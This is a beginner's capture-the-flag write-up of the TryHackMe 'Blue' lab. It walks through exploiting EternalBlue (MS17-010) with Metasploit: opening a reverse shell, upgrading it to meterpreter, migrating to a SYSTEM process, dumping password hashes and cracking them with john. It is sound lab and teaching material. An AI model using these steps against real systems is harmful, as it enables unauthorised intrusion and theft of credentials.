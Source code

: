 ```yaml
---
layout: post
title: "Blue"
---
```




***Welcome to "Blue" room on [TryHackMe](https://www.tryhackme.com/room/blue). The room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners.***

*windows, eternal-blue, metasploit, MS17-010, CVE2017-0144* 

---------------------





*First connect to TryHackMe network and deploy the machine. If you don't know how to do this, check this [guide](https://ctfjournal.github.io/Connect-to-TryHackMe-VPN/).*

--------------------------






### Task1: Recon

The room focus will be on **CVE2017-0144**, also known as **"EternalBlue,"** which is a security vulnerability in the Microsoft Windows operating system that was discovered in 2017. It is a remote code execution vulnerability in the Microsoft Server Message Block (SMB) protocol, which is used for file sharing between computers.

This vulnerability allows an attacker to send specially crafted packets to a vulnerable computer and execute code remotely without the user's knowledge or permission. This can enable attackers to take over the affected system, steal sensitive information, or use the compromised system to launch further attacks against other systems.

**Scanning** with **nmap** reveals the open ports on the machine and since we know we will be exploiting SMB MS17-010, [445](https://www.varonis.com/blog/smb-port) will be our port of interest.



![img1](/assets/images/blue/img1.png)

-------------------

### Task2: Gain Access 

[Metasploit](https://tryhackme.com/room/rpmetasploit) is the tool we will use for exploiting the vulnerability. To start metasploit, run ***msfconsole*** terminal command.

We can initially use the scanner to confirm the machine is vulnerable to the exploit.
   - **search** for term *"eternal blue"*
   - **use** 3: this will use the 3rd module in the list, which is the scanner for MS17-010
   - **set rhosts** *target_ip*
   - **run**

The module executes and indicates that the machine is likely vulnerable. 


![img2](/assets/images/blue/img2.png)

Same as we did at the previous step, we will seach again for *"eternal blue"*(this time, the exploit module, not the scanner) and select the appropriate module. 

 Here are the steps for selecting the EternalBlue exploit with the shell/reverse_tcp payload in Metasploit:

    Open Metasploit framework.
    Type 'search eternal blue'
    Select the module by typing the number in front of it (e.g.'use 3'
    Without searching, you can achieve the same result, by running 'use exploit/windows/smb/ms17_010_eternalblue'
    Type 'set RHOSTS <target IP address>' to set the IP address of the target machine.
    Type 'set LHOST <your IP address>' to set the IP address of the attacker machine.
    Type 'run' to execute the exploit.




![img3](/assets/images/blue/img3.png)

If successful, you should see a windows shell opened with the reverse connection established.

![img4](/assets/images/blue/img4.png)


We could have used a meterpreter payload instead of shell, by selecting the following: *'set payload windows/x64/meterpreter/reverse_tcp'*

Meterpreter sessions are better than shells because they are more stealthy, flexible, secure, persistent, and interactive. They offer a user-friendly interface with a range of options and functionality that make them more powerful and versatile than standard shells.

The next task will teach how to upgrade a shell and escalate privileges.


---------------------------

### Task3: Escalate

Background the existing shell session with **ctrl+z** then use the **post** module *post/multi/manage/shell_to_meterpreter*

Looking at the options, we see that all we need to do is to set the session number that needs to be upgraded to meterpreter and then **run**

A new session will be opened. To interract with it, type **sessions -i** *session_number*. 


![img5](/assets/images/blue/img5.png)

Now we can escalate privileges by migrating our meterpreter shell to a process in windows that runs as NT AUTHORITY\SYSTEM. 

- **ps** - list the running processes
- **migrate** - move the shell to a different process.

Listing the processes, we see the spool service runs with elevated privileges. Let's attempt to migrate

![img6](/assets/images/blue/img6.png)

On the 1st attempt the session crashed, so i had to start from scratch, but it worked on the 2nd attempt

-----------------------------

### Task4: Cracking


Let's talk about how passwords are stored on computers. When you create a password, it's not saved as plain text. Instead, the computer converts it into an unreadable string of characters called a hash. This process is called password hashing. Some hashing schemes are more difficult to crack than others. In the past, Windows used LM hashing to store passwords but has since switched to NTLM. Password cracking techniques vary depending on the situation, and different tools are used for different techniques. 


Having sufficient privileges, we can dump the hashes for all users passwords, by running **hashdump**

![img7](/assets/images/blue/img7.png)


We are aiming to crack Jon's hash, so let's add the hashes to a text file and use **john** along with **rockyou.txt** dictionary


![img8](/assets/images/blue/img8.png)

---------------------

### Task5: Find Flags


And for the final task, we need to find the flags. That can be done very easy using **meterpreter**'s **search** command with some wildcards, to look for files containing the word "flag" in their name. 

![img9](/assets/images/blue/img9.png)


That's it, room is done!

----------------------

